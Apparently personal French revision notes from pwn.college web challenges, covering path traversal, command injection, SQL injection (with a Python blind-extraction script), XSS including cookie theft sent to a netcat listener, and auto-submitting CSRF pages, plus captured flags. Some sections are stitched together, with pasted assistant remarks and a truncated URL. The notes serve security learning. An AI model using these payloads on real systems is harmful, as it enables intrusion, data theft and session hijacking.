

[🏠 Accueil du repo](../README.md) 

# Notes personnelles — Vulnérabilités Web

Fiches de révision issues des challenges pwn.college (path traversal, injections, XSS, CSRF…).

## Sommaire

- [1. Path Traversal 1](#1-path-traversal-1)
- [2. Path Traversal 2](#2-path-traversal-2)
- [3. Command Injection 1 (CMDi-1)](#3-command-injection-1-cmdi-1)
- [4. Command Injection 2 (CMDi-2)](#4-command-injection-2-cmdi-2)
- [Notes – CMDi 3](#notes--cmdi-3)
- [Notes – CMDi 4](#notes--cmdi-4)
- [Notes – CMDi 5 (Blind Command Injection)](#notes--cmdi-5-blind-command-injection)
- [Notes – CMDi 6](#notes--cmdi-6)
- [Notes – Authentication Bypass 2](#notes--authentication-bypass-2)
- [Fiche de Révision : SQLi1](#fiche-de-révision--sqli1)
- [Fiche de Révision : Injection SQLi3 de type UNION](#fiche-de-révision--injection-sqli3-de-type-union)
- [SQLi4](#sqli4)
- [Fiche de Révision : Blind SQL Injection (Basée sur les booléens)](#fiche-de-révision--blind-sql-injection-basée-sur-les-booléens)
- [Fiche de Révision : Stored XSS (Cross-Site Scripting Stocké)](#fiche-de-révision--stored-xss-cross-site-scripting-stocké)
- [Fiche de Révision : Execution de Code JavaScript (Stored XSS)](#fiche-de-révision--execution-de-code-javascript-stored-xss)
- [Fiche de Révision : Stored XSS & Exfiltration (pwn.college xss-7)](#fiche-de-révision--stored-xss--exfiltration-pwncollege-xss-7)
- [📌 Fiche de Synthèse : CSRF Level 1](#-fiche-de-synthèse--csrf-level-1)
- [Fiche de Révision : POST-CSRF (pwn.college csrf-2)](#fiche-de-révision--post-csrf-pwncollege-csrf-2)
- [✅ Solution CSRF 3](#-solution-csrf-3)
- [🚀 Ensuite](#-ensuite)

---

Notes de résolution sur des challenges pwn.college / labs persos, par catégorie de vulnérabilité.

---

[⬆ Sommaire](#sommaire)

## 1. Path Traversal 1

**Principe**  
Le serveur construit le chemin comme ça :

Python

requested_path = app.root_path + "/files/" + path

Il n’y a **aucune** sanitization. On peut donc remonter dans
l’arborescence avec ../.

**Problème**  
Si on met ../ en clair, le client (curl) ou le serveur normalise le
chemin **avant** qu’il n’arrive à l’application. On reçoit donc un 404.

**Solution**  
Encoder le / en %2F pour que le serveur reçoive vraiment les ../.

Bash

curl "http://challenge.localhost:80/\<route\>/..%2F..%2Fflag"

[⬆ Sommaire](#sommaire)

## 2. Path Traversal 2

**Principe**  
Le développeur a ajouté :

Python

path.strip("/.")

Ça enlève les . et / **uniquement au début et à la fin** de la chaîne.

**Conséquence**  
../../flag devient flag → plus de traversal.

**Solution**  
Partir d’un dossier qui existe vraiment dans /challenge/files/ (ici
fortunes/).  
Les ../ ne sont plus en tête → ils ne sont pas stripés.

Bash

curl
"http://challenge.localhost:80/\<route\>/fortunes/..%2F..%2F..%2Fflag"

[⬆ Sommaire](#sommaire)

## 3. Command Injection 1 (CMDi-1)

**Principe**

Python

command = f"ls -l {arg}"

subprocess.run(command, shell=True, ...)

Le paramètre utilisateur est collé directement dans une commande shell.

**Solution classique**  
Utiliser le séparateur de commandes ;

Bash

curl
"http://challenge.localhost:80/\<route\>?\<param\>=/challenge;cat+/flag"

[⬆ Sommaire](#sommaire)

## 4. Command Injection 2 (CMDi-2)

**Principe**  
Le développeur filtre le ; :

Python

arg = flask.request.args.get("start", "/challenge").replace(";", "")

**Solution**  
Utiliser le **pipe** \| (vu dans le module Piping du Linux Luminarium).

**Sur ton instance :**

- Route : /activity

- Paramètre : start

Bash

curl "http://challenge.localhost:80/activity?start=/%20\|%20cat%20/flag"

**Résultat**  
La commande devient : ls -l / \| cat /flag  
→ le flag s’affiche dans la balise \<pre\>.

**Flag obtenu** :  
pwn.college{I7TgvdoLd2fUGJpHvbSkAYCitPE.QX0YTN2wyN2MDM5EzW}

[⬆ Sommaire](#sommaire)

## Notes – CMDi 3

**Principe**

Le développeur a mis l’input utilisateur **entre simple quotes** :

Python

command = f"ls -l '{arg}'"

Conséquence :

- Les caractères spéciaux (;, \|, \$, etc.) sont traités comme du
  **texte normal**.

- Ils n’ont plus leur signification spéciale tant que la quote n’est pas
  fermée.

**Problème**

On ne peut plus injecter directement ;cat /flag ou \|cat /flag parce que
tout est protégé par les '.

**Solution**

On doit **fermer la quote** nous-mêmes, injecter la commande, puis gérer
la quote qui reste à la fin (ajoutée par le code).

**Payload classique :**

text

/';cat /flag'

**Sur ton instance**

- Route : /problem

- Paramètre : topdir

Bash

*\# 1. Lancer le serveur*

/challenge/server

*\# 2. Injection*

curl "http://challenge.localhost:80/problem?topdir=/';cat+/flag'"

**Ce que le shell exécute vraiment**

Bash

ls -l '/';cat /flag''

- ' → ferme la quote ouverte par le développeur

- ;cat /flag → nouvelle commande

- ' → absorbe la quote finale du code

→ le flag s’affiche dans le \<pre\>.

**Astuce du hint**

Il y a **toujours** une ' à la fin de la commande.

[⬆ Sommaire](#sommaire)

## Notes – CMDi 4

**Principe**

L’injection n’est plus dans un ls, mais dans une **autre partie** de la
commande :

Python

command = f"TZ={arg} date"

**Sur ton instance**

- Route : /event

- Paramètre : tzid

**Solution**

Bash

curl "http://challenge.localhost:80/event?tzid=;cat+/flag"

[⬆ Sommaire](#sommaire)

## Notes – CMDi 5 (Blind Command Injection)

**Principe**

Le serveur exécute une commande (touch {arg}) mais **ne renvoie pas** la
sortie de ta commande injectée.  
Tu dois donc **exfiltrer** le flag autrement (écriture dans un fichier).

**Sur ton instance**

- Route : /dare

- Paramètre : path

- Commande : touch {arg}

**Solution**

Bash

*\# 1. Lancer le serveur*

/challenge/server

*\# 2. Injecter pour écrire le flag dans un fichier*

curl
"http://challenge.localhost:80/dare?path=;cat+/flag+\>/tmp/flag.txt"

*\# 3. Lire le fichier*

cat /tmp/flag.txt

[⬆ Sommaire](#sommaire)

## Notes – CMDi 6

**Principe**

Le développeur filtre **presque** tous les caractères dangereux :

Python

.replace(";", "")

.replace("&", "")

.replace("\|", "")

.replace("\>", "")

.replace("\<", "")

.replace("(", "")

.replace(")", "")

.replace("\`", "")

.replace("\$", "")

Il oublie le **newline** (\n / %0a).

**Sur ton instance**

- Route : /task

- Paramètre : filepath

**Solution**

Bash

curl "http://challenge.localhost:80/task?filepath=/%0acat%20/flag"

**Ce que le shell exécute**

Bash

ls -l /

cat /flag

Le \n agit comme un séparateur de commandes → le flag s’affiche.

Parfait !

**Solution pour Authentication Bypass 1**

Le serveur fait confiance au paramètre d’URL session_user sans vérifier
s’il vient vraiment d’une authentification réussie.

**Solution ultra simple**

Bash

curl "http://challenge.localhost:80/?session_user=admin"

[⬆ Sommaire](#sommaire)

## Notes – Authentication Bypass 2

**Principe**

Le serveur stocke maintenant la session dans un **cookie** au lieu d’un
paramètre d’URL.

Python

response.set_cookie('session_user', username)

*\# ...*

username = flask.request.cookies.get("session_user")

if username == "admin":

afficher le flag

**Solution**

Bash

curl -b "session_user=admin" "http://challenge.localhost:80/"

[⬆ Sommaire](#sommaire)

## Fiche de Révision : SQLi1

### 1. Contexte & Objectif

- **Cible :** Application Flask lisant une base SQLite.

- **Objectif :** S'authentifier en tant que admin pour récupérer le
  contenu de /flag.

- **Particularité :** Les sessions utilisateur sont gérées via des
  cookies chiffrés (impossibles à modifier directement).
  L'authentification doit donc être validée par la base de données.

### 2. Analyse de la Vulnérabilité (SQL Injection)

Le serveur construit sa requête SQL par simple concaténation de chaînes
de caractères :

Python

query = f"SELECT rowid, \* FROM users WHERE username = '{username}' AND
pin = { pin }"

curl "http://challenge.localhost/identity" \\

-H "Host: challenge.localhost" \\

-b cookies.txt

**Fiche de Révision : SQLi2 Injection (Champs Texte & Contournement
d'Égalité)**

### 1. Contexte & Analyse du Code

Le serveur Flask exécute la requête suivante lors de la connexion :

Python

query = f"SELECT rowid, \* FROM users WHERE username = '{username}' AND
password = '{ password }'"

Contrairement au niveau précédent :

- Les entrées utilisateur sont injectées **entre guillemets simples
  (')**.

- La session enregistre directement la valeur brute passée dans username
  :

Python

flask.session\["user"\] = username

- L'affichage du flag nécessite une correspondance **exacte** de la
  session :

Python

if username == "admin":

page += "\<br\>Here is your flag: " + open("/flag").read()

### 2. Piège Décelé : Injection via userid vs account-password

- **Si l'injection se fait sur userid (ex: admin'--) :**

La requête SQL réussit et la base retourne l'utilisateur, mais
flask.session\["user"\] enregistre "admin'--". Le check username ==
"admin" échoue.

- **La bonne stratégie :**

Garder userid = admin (pour que la session stocke exactement "admin") et
injecter le payload dans le champ account-password.

### 3. Construction du Payload SQL

En envoyant :

- userid = admin

- account-password = ' OR '1'='1

La requête SQL générée devient :

SQL

SELECT rowid, \* FROM users WHERE username = 'admin' AND password = ''
OR '1'='1'

### Évaluation par le moteur SQL :

1.  L'opérateur AND est prioritaire sur OR.

2.  SQLite évalue : (username = 'admin' AND password = '') $\rightarrow$
    **Faux**.

3.  Il évalue ensuite : FALSE OR ('1' = '1') $\rightarrow$ **Vrai**.

4.  La ligne de l'utilisateur admin est retournée par la base de
    données.

### 4. Commandes de Résolution

1.  **Envoi de l'injection sur le champ mot de passe :**

Bash

curl -X POST "http://challenge.localhost/logon" \\

-H "Host: challenge.localhost" \\

-d "userid=admin" \\

--data-urlencode "account-password=' OR '1'='1" \\

-c cookies.txt -L

2.  **Récupération du Flag :**

Bash

curl "http://challenge.localhost/logon" \\

-H "Host: challenge.localhost" \\

-b cookies.txt

Voici la fiche de récapitulatif pour ce troisième niveau.

[⬆ Sommaire](#sommaire)

## Fiche de Révision : Injection SQLi3 de type UNION

### 1. Contexte & Analyse du Code

Dans ce niveau, l'application recherche un utilisateur et affiche le
résultat directement sur la page :

Python

sql = f'SELECT username FROM users WHERE username LIKE "{query}"'

- **Le Flag :** Il est stocké dans la colonne password de la table users
  pour le compte admin.

- **Particularité :** L'application n'affiche que les valeurs renvoyées
  par la colonne username du résultat de la requête.

- **Problème :** Une simple clause OR 1=1 afficherait les noms
  d'utilisateurs, mais pas leurs mots de passe.

### 2. Principe de l'Injection UNION

L'opérateur SQL UNION permet de combiner les résultats de deux requêtes
SELECT distinctes en un seul jeu de données.

### Règles d'une requête UNION :

1.  Les deux requêtes doivent retourner le **même nombre de colonnes**.

2.  Les types de données des colonnes correspondantes doivent être
    compatibles.

Comme la requête initiale sélectionne 1 seule colonne (username), la
deuxième requête du UNION doit également sélectionner 1 seule colonne
(password).

### 3. Construction du Payload

- **Entrée :** " UNION SELECT password FROM users --

- **Requête générée :**

SQL

SELECT username FROM users WHERE username LIKE "" UNION SELECT password
FROM users --"

### Décomposition du payload :

- " : Ferme le guillemet double entourant la variable \$query.

- UNION SELECT password FROM users : Ajoute les résultats de la colonne
  password au résultat final qui sera affiché.

- -- : Commente le reste de la requête originale pour éviter une erreur
  de syntaxe SQL.

### 4. Commande de Résolution

Bash

curl
"http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--"
\\

-H "Host: challenge.localhost"

[⬆ Sommaire](#sommaire)

## SQLi4

### Step 1: Extract the Randomized Table Name

SQLite automatically maintains a schema table called sqlite_master (or
sqlite_schema) that contains metadata about all tables in the database.
The tbl_name or sql columns store the table names and creation
statements.

Using the same UNION SELECT technique from the previous level:

Plaintext

" UNION SELECT tbl_name FROM sqlite_master --

### Execute the request:

Bash

curl
"http://challenge.localhost/?query=%22%20UNION%20SELECT%20tbl_name%20FROM%20sqlite_master%20--"
\\

-H "Host: challenge.localhost"

The output in the \<pre\> section will reveal the randomized table name
(e.g., users_8589934592).

### Step 2: Extract the Flag from the Discovered Table

Once you have the table name (let's assume users_12345678), inject a
second UNION SELECT query targeting that specific table name to extract
the password column:

Bash

curl
"http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users_12345678%20--"
\\

-H "Host: challenge.localhost"

*(Replace users_12345678 with the actual table name returned in Step
1).*

SQLi5

[⬆ Sommaire](#sommaire)

## Fiche de Révision : Blind SQL Injection (Basée sur les booléens)

### 1. Contexte & Problématique

- **Contrainte :** L'application ne renvoie **aucun résultat SQL** à
  l'écran.

- **Différence de comportement :**

  - Connexion réussie (utilisateur trouvé) $\rightarrow$ Code HTTP **302
    (Redirection)**

  - Connexion échouée (aucun utilisateur) $\rightarrow$ Code HTTP **403
    (Forbidden)**

- **Objectif :** Extraire le flag (le mot de passe de l'utilisateur
  admin) caractère par caractère en posant des questions Vrai/Faux à la
  base de données.

### 2. Principe du Boolean-Based Blind SQLi

On reconstruit une requête dont le résultat dépend d'une condition
booléenne :

SQL

SELECT rowid, \* FROM users WHERE username = 'admin' AND password = ''
OR (username='admin' AND substr(password, 1, 1)='p') --'

- **Si l'hypothèse est VRAIE** (le 1er caractère est bien 'p') : La base
  renvoie la ligne de l'utilisateur admin. Le serveur Flask répond avec
  un code 302.

- **Si l'hypothèse est FAUSSE** (le 1er caractère n'est pas 'p') : La
  base ne renvoie aucune ligne. Le serveur Flask répond avec un code
  403.

### 3. Fonctions Clés SQLite

- SUBSTR(chaine, position, longueur) : Extrait une sous-chaîne à partir
  d'un index basé sur 1 (ex: substr(password, 1, 1) extrait le premier
  caractère).

- LENGTH(chaine) : Renvoie la longueur de la chaîne (utile pour
  connaître la taille exacte avant l'extraction).

### 4. Script d'Exploitation (Automation Python)

Python

import requests

import string

url = "http://127.0.0.1/"

headers = {"Host": "challenge.localhost"}

charset = string.ascii_letters + string.digits + "\_{}."

flag = ""

print("\[+\] Lancement de l'extraction par Blind SQL Injection...")

for pos in range(1, 100):

found_char = False

for char in charset:

payload = f"' OR (username='admin' AND
substr(password,{pos},1)='{char}') --"

r = requests.post(url, headers=headers, data={"username": "admin",
"password": payload}, allow_redirects=False)

if r.status_code == 302:

flag += char

print(f"\[+\] Caractère {pos} trouvé : {char} -\> Flag : {flag}")

found_char = True

if char == "}":

print(f"\n\[!\] Flag complet extrait : {flag}")

exit(0)

break

if not found_char:

break

[⬆ Sommaire](#sommaire)

## Fiche de Révision : Stored XSS (Cross-Site Scripting Stocké)

### 1. Contexte & Problématique

- **Changement de Paradigme :** Contrairement aux injections SQL ou de
  commandes où la cible est le serveur Web, l'XSS vise **le navigateur
  du client/utilisateur** (ici simulé par /challenge/victim).

- **Mécanisme Stored XSS :** L'attaquant injecte un contenu malveillant
  (HTML/JavaScript) qui est enregistré de manière permanente dans la
  base de données du serveur. Chaque fois qu'un utilisateur consulte la
  page, le serveur lui sert ce contenu malveillant.

### 2. Analyse de la Vulnérabilité du Code Source

Dans /challenge/server :

Python

\# 1. Insertion brute en base de données (aucune désinfection)

db.execute("INSERT INTO posts VALUES (?)", \[content\])

\# 2. Rendu HTML par concaténation directe sans échappement

for post in db.execute("SELECT content FROM posts").fetchall():

page += "\<hr\>" + post\["content"\] + "\n"

- **Le problème :** L'application traite l'entrée utilisateur comme du
  code HTML valide au lieu de la convertir en texte brut (absence
  d'échappement des caractères spéciaux comme \< et \>).

### 3. Méthodologie d'Exploitation

- **Condition de réussite du challenge :** Faire en sorte que le script
  victime voie **3 zones de texte** (\<input type="text"\>) lors de sa
  visite.

- **État initial :** La page contient déjà 1 formulaire de base avec 1
  champ d'entrée :

HTML

\<form method=post\>Post:\<input type=text name=content\>...

- **Attaque :** Envoyer **2 posts supplémentaires** contenant chacun une
  balise HTML \<input type='text'\>.

### 4. Commandes de Résolution

1.  **Lancement du serveur (si besoin) :**

Bash

/challenge/server &

2.  **Injection des 2 balises HTML via POST :**

Bash

curl -X POST "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \\

-d "content=\<input type='text'\>"

curl -X POST "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \\

-d "content=\<input type='text'\>"

3.  **Déclenchement du Bot Victime :**

Bash

/challenge/victim "http://challenge.localhost/"

[⬆ Sommaire](#sommaire)

## Fiche de Révision : Execution de Code JavaScript (Stored XSS)

### 1. Contexte & Définition

- **Évolution par rapport au niveau 1 :** Au lieu d'injecter de simples
  balises de structure HTML (comme des zones de texte \<input\>),
  l'injection force l'exécution d'un **script JavaScript** côté client.

- **La balise \<script\> :** Permet d'indiquer au moteur du navigateur
  Web que le contenu interne doit être interprété et exécuté en tant que
  code exécutable (JavaScript).

### 2. Analyse de la Vulnérabilité

Dans /challenge/server :

Python

\# L'application concatène directement le contenu soumis sans validation
ni sanitisation :

for post in db.execute("SELECT content FROM posts").fetchall():

page += "\<hr\>" + post\["content"\] + "\n"

Le navigateur reçoit le bloc HTML suivant et exécute automatiquement le
script :

HTML

\<hr\>\<script\>alert("PWNED")\</script\>

### 3. Méthodologie d'Exploitation

- **Payload utilisé :**

HTML

\<script\>alert("PWNED")\</script\>

- **Impact :** La fonction JavaScript alert() est appelée lors du rendu
  du document HTML dans le navigateur de la victime (/challenge/victim).

### 4. Commandes de Résolution

1.  **Injection du payload XSS :**

Bash

curl -X POST "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \\

--data-urlencode "content=\<script\>alert(\\PWNED\\)\</script\>"

2.  **Déclenchement du Bot Victime :**

Bash

/challenge/victim "http://challenge.localhost/"

### 2. Analyse de la Vulnérabilité

Dans /challenge/server :

Python

@app.route("/", methods=\["GET"\])

def challenge_get():

return f"""

\<html\>\<body\>

\<h1\>pwnmsg ephemeral message service\</h1\>

The message:

{flask.request.args.get("msg", "(none)")}

...

- **Le problème :** L'application récupère la valeur du paramètre GET
  msg directement depuis l'URL de la requête HTTP et la concatène dans
  la réponse HTML sans aucun nettoyage ni échappement.

### 3. Méthodologie d'Exploitation

- **Payload brut :** \<script\>alert("PWNED")\</script\>

- **URL-Encoding :** Les caractères spéciaux dans les paramètres GET
  d'une URL doivent être encodés (\< $\rightarrow$ %3C, \> $\rightarrow$
  %3E, etc.) pour éviter les erreurs de parsing par le serveur web.

- **URL forgée :**

Plaintext

http://challenge.localhost/?msg=%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E

### 4. Commande de Résolution

Déclenchement du Bot Victime en lui fournissant l'URL piégée en
paramètre :

Bash

/challenge/victim
"http://challenge.localhost/?msg=%3Cscript%3Ealert(%22PWNED%22)%3C/s

**Fiche de Révision : Sortie de Contexte HTML (Context Breaking in
XSS)**

### 1. Problématique du Contexte

En sécurité Web, le contexte détermine la façon dont le navigateur
interprète les données injectées :

- **Contexte HTML standard :** Les balises \<script\> sont directement
  exécutées.

- **Contexte HTML restrictif (ex: \<textarea\>, \<title\>, \<style\>)
  :** Tout ce qui se trouve à l'intérieur est traité comme du **texte
  brut**. Une balise \<script\> injectée à l'intérieur d'un \<textarea\>
  ne s'exécutera pas car le navigateur considère qu'elle fait partie de
  la valeur du champ de texte.

### 2. Analyse de la Vulnérabilité du Code Source

Dans /challenge/server :

Python

@app.route("/", methods=\["GET"\])

def challenge_get():

return f"""

\<html\>\<body\>

\<h1\>pwnmsg ephemeral message service\</h1\>

The message:

\<form\>

\<textarea name=msg\>{flask.request.args.get("msg", "Type your message
here!")}\</textarea\>

\<input type=submit value="Make URL!"\>

\</form\>

\</body\>\</html\>

"""

- **Le problème :** L'entrée utilisateur est directement reflétée **à
  l'intérieur** des balises \<textarea\> et \</textarea\>.

### 3. Technique d'Attaque : Cassage de Contexte (Context Breaking)

Pour exécuter du JavaScript, l'attaque se déroule en deux étapes :

1.  **Fermer la balise parente** pour sortir du contexte restrictif avec
    \</textarea\>.

2.  **Injecter la charge malveillante** immédiatement après.

- **Payload brut :**

HTML

\</textarea\>\<script\>alert("PWNED")\</script\>

- **Structure HTML finale générée par le serveur :**

HTML

\<textarea
name=msg\>\</textarea\>\<script\>alert("PWNED")\</script\>\</textarea\>

*(Le navigateur ferme la zone de texte au premier \</textarea\>
rencontré, puis exécute le script).*

### 4. Commande de Résolution

Lancement de la commande avec l'URL contenant la charge encodée :

Bash

/challenge/victim
"http://challenge.localhost/?msg=%3C/textarea%3E%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E"

Voici la fiche de récapitulatif pour ce sixième niveau d'XSS.

**Fiche de Révision : Modification d'État via Requêtes HTTP POST (Fetch
API)**

### 1. Évolution du Vecteur d'Attaque

- **GET vs POST :** Dans les applications web sécurisées, les actions
  modifiant l'état (création, mise à jour, suppression) doivent utiliser
  la méthode POST plutôt que GET pour éviter l'exécution accidentelle ou
  la pré-mise en cache.

- **Capacité de l'XSS :** Une fois le code JavaScript exécuté dans le
  navigateur de la victime, l'attaquant dispose des mêmes privilèges et
  accès réseau que l'utilisateur. L'API fetch() de JavaScript permet
  d'effectuer tous les types de requêtes HTTP (GET, POST, PUT, DELETE).

### 2. Analyse du Code Source Vulnerable

Dans /challenge/server :

Python

@app.route("/publish", methods=\["POST"\])

def challenge_publish():

username = flask.session.get("username", None)

if not username:

flask.abort(403, "Log in first!")

db.execute("UPDATE posts SET published = TRUE WHERE author = ?",
\[username\])

return flask.redirect("/")

- **Le problème :** L'endpoint /publish vérifie uniquement la présence
  de la session (username), mais n'exige aucun **jeton anti-CSRF**. Par
  conséquent, toute requête POST émise depuis le navigateur d'un
  utilisateur connecté sera acceptée et exécutée.

### 3. Structure du Payload Fetch POST

Par défaut, fetch(url) envoie une requête GET. Pour envoyer une requête
POST, on spécifie les options de la requête :

HTML

\<script\>

fetch('/publish', {

method: 'POST'

});

\</script\>

### 4. Déroulement Complet de l'Attaque

1.  **Connexion :** Récupération d'une session valide pour le compte
    hacker.

2.  **Injection & Publication immédiate :** Soumission du brouillon avec
    publish=on pour contourner le découpage à 12 caractères (\[:12\]).

3.  **Visite de la victime :** Quand le bot admin consulte la page
    d'accueil /, le script s'exécute sous l'identité de
    l'administrateur.

4.  **Action forcée :** Le script effectue un POST /publish avec la
    session de l'admin, publiant son brouillon contenant le drapeau.

5.  **Extraction :** Récupération du drapeau depuis la page d'accueil
    avec le cookie du compte hacker.

### 5. Commandes de Résolution

Bash

\# 1. Authentification

curl -s -c cookies.txt -X POST "http://challenge.localhost/login" \\

-H "Host: challenge.localhost" \\

-d "username=hacker&password=1337"

\# 2. Injection du payload POST avec publish=on

curl -s -b cookies.txt -X POST "http://challenge.localhost/draft" \\

-H "Host: challenge.localhost" \\

-d "content=\<script\>fetch('/publish', {method:
'POST'})\</script\>&publish=on"

\# 3. Exécution par le bot admin

/challenge/victim "http://challenge.localhost/"

\# 4. Lecture du flag (avec session authentifiée)

curl -s -b cookies.txt "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \| grep -oE "pwn.college\\\[^}\]+\\"

Bien joué pour la validation du niveau ! Le passage par --data-urlencode
associé au fetch() en **POST vers 0.0.0.0:6969** était la clé absolue
pour contourner les problèmes d'interprétation des caractères spéciaux
par curl et la politique réseau du navigateur.

[⬆ Sommaire](#sommaire)

## Fiche de Révision : Stored XSS & Exfiltration (pwn.college xss-7)

### 1. Pourquoi l'attaque a fonctionné (Analyse du Payload gagnant)

Bash

curl -s -b cookies.txt -X POST "http://challenge.localhost/draft" \\

--data-urlencode
'content=\<script\>fetch("http://0.0.0.0:6969",{method:"POST",body:document.cookie});\</script\>'
\\

-d "publish=on"

- **L'URL-encoding (--data-urlencode)** : C'est ce qui a débloqué la
  situation. En voyant des guillemets, des espaces et des caractères
  spéciaux dans la chaîne \<script\>, Bash et le serveur Flask
  tronquaient ou altéraient le payload. En l'encodant proprement avant
  l'envoi, le code JavaScript est arrivé intact dans la base de données.

- **L'adresse 0.0.0.0 vs 127.0.0.1** : Dans certains environnements
  virtualisés / sous Firefox Selenium, 127.0.0.1 ou localhost peuvent
  être restreints par la Same-Origin Policy (SOP). Pointer directement
  vers l'interface 0.0.0.0:6969 sur un port non-standard écoute sur
  toutes les interfaces locales et traverse directement vers Netcat.

- **La méthode POST pour fetch** : Envoyer document.cookie dans le corps
  de la requête (body) évite que le cookie soit rejeté ou découpé par
  les règles d'URL/Query parameters de la requête GET.

### 2. Anatomie de l'Exfiltration via Netcat

When nc -lvnp 6969 a reçu la connexion :

1.  Le bot Selenium s'est connecté (POST /login), recevant le cookie
    auth=admin\|.QXygTN2wyN2MDM5EzW}.

2.  Le bot est arrivé sur /, exécutant le script XSS stocké.

3.  Le navigateur a exécuté la requête asynchrone fetch à l'arrière-plan
    vers le port 6969 en injectant le cookie dans le corps HTTP :

HTTP

POST / HTTP/1.1

Host: 0.0.0.0:6969

Origin: http://challenge.localhost

auth=admin\|.QXygTN2wyN2MDM5EzW}

### 3. Reconstitution du Cookie et Usurpation d'Identité

Une fois le secret extrait (auth=admin\|.QXygTN2wyN2MDM5EzW}), il
suffisait de rejouer la requête d'accès sous l'identité de
l'administrateur :

Bash

curl -s "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \\

-b "auth=admin\|.QXygTN2wyN2MDM5EzW}" \| grep -oE
"pwn.college\\\[^}\]+\\"

Le serveur Flask a validé la session administrative et a renvoyé la page
d'accueil contenant le drapeau complet :
pwn.college{MRMFYOmxRWa_d5ESIYJ0NgRtzvC.QXygTN2wyN2MDM5EzW}

Voici une fiche de récapitulatif synthétique pour le laboratoire **CSRF
Level 1**.

[⬆ Sommaire](#sommaire)

## 📌 Fiche de Synthèse : CSRF Level 1

### 🎯 Objectif du Challenge

Forcer l'administrateur du site (admin) à effectuer une action
privilégiée — **publier son brouillon secret contenant le drapeau** via
la route /publish — à son insu lorsqu'il visite notre site malveillant.

### 🔍 Éléments Clés & Vulnérabilités

1.  **Absence de jeton anti-CSRF**

    - La route GET /publish exécute une action modifiant l'état
      (publication d'un post) sans demander de preuve d'intention (token
      CSRF, validation par mot de passe, etc.).

2.  **Gestion des sessions et Cookies**

    - L'application s'appuie uniquement sur un cookie de session
      transmis automatiquement par le navigateur de la victime lors
      d'une navigation vers le domaine challenge.localhost.

3.  **Comportement SOP / CORS vs. Navigation Top-Level**

    - Les requêtes fetch() asynchrones depuis hacker.localhost étaient
      bloquées par les règles CORS du serveur (renvoyant une erreur 403
      Forbidden).

    - Les redirections de navigation pleine page (window.location.href)
      sont considérées comme des navigations de premier niveau et
      transmettent le cookie de session, renvoyant un statut 302 Found.

### 🛠️ Étapes d'Exploitation (Kill Chain)

### 1. Préparation du Payload HTML (sur le serveur de l'attaquant)

Fichier index.html hébergé sur
\[http://hacker.localhost:1337/\](http://hacker.localhost:1337/) :

HTML

\<!DOCTYPE html\>

\<html\>

\<body\>

\<script\>

// Redirige immédiatement le navigateur de la victime vers l'endpoint
vulnérable

window.location.href = "http://challenge.localhost/publish";

\</script\>

\</body\>

\</html\>

### 2. Démarrage du serveur et déclenchement de la victime

Bash

\# Servir le fichier malveillant

python3 -m http.server 1337 --bind 0.0.0.0 &

\# Forcer l'admin (bot Selenium) à visiter notre site

/challenge/victim "http://hacker.localhost:1337/"

### 3. Récupération du Drapeau

Une fois l'admin redirigé sur /publish, son brouillon est publié sur
l'application. Il suffit d'ouvrir une session utilisateur (hacker) pour
lire la page d'accueil authentifiée :

Bash

\# Se connecter pour obtenir un cookie de session

curl -s -c cookies.txt -X POST "http://challenge.localhost/login" \\

-H "Host: challenge.localhost" \\

-d "username=hacker&password=1337"

\# Consulter l'accueil authentifié et extraire le flag

curl -s -b cookies.txt "http://challenge.localhost/" \\

-H "Host: challenge.localhost" \| grep -oE "pwn.college\\\[^}\]+\\"

[⬆ Sommaire](#sommaire)

## Fiche de Révision : POST-CSRF (pwn.college csrf-2)

### 1. Pourquoi l'attaque a fonctionné (Analyse du Payload)

HTML

\<!DOCTYPE html\>

\<html\>

\<body\>

\<form id="csrfForm" action="http://challenge.localhost/publish"
method="POST"\>

\<input type="hidden" name="publish" value="on"\>

\</form\>

\<script\>

document.getElementById('csrfForm').submit();

\</script\>

\</body\>

\</html\>

- **Le contournement de la Same-Origin Policy (SOP) :** Les requêtes
  réseau initiées en JavaScript asynchrone (fetch, XHR) cross-origin
  bloquent la transmission automatique des cookies d'authentification ou
  sont rejetées par CORS. En revanche, la soumission d'un formulaire
  HTML (\<form\>) déclenche une navigation native du navigateur.

- **Transmission automatique des cookies :** Lors de cette soumission
  HTML cross-origin, le navigateur joint automatiquement les cookies de
  session associés à la cible (challenge.localhost), ce qui valide la
  requête POST /publish sous l'identité de l'administrateur.

- **L'auto-soumission (submit()) :** Le court script JS force le
  navigateur du bot à soumettre le formulaire immédiatement au
  chargement de la page sans nécessiter d'interaction utilisateur.

### 2. Déroulement du journal des requêtes

1.  Le bot visite le site attaquant : GET / HTTP/1.1 (port 1337).

2.  Le formulaire s'exécute automatiquement et envoie : POST /publish
    HTTP/1.1 vers challenge.localhost.

3.  L'application traite le brouillon avec le cookie de l'admin et
    renvoie un statut 302 Found (redirection).

4.  Le post contenant le flag devient public sur la plateforme.

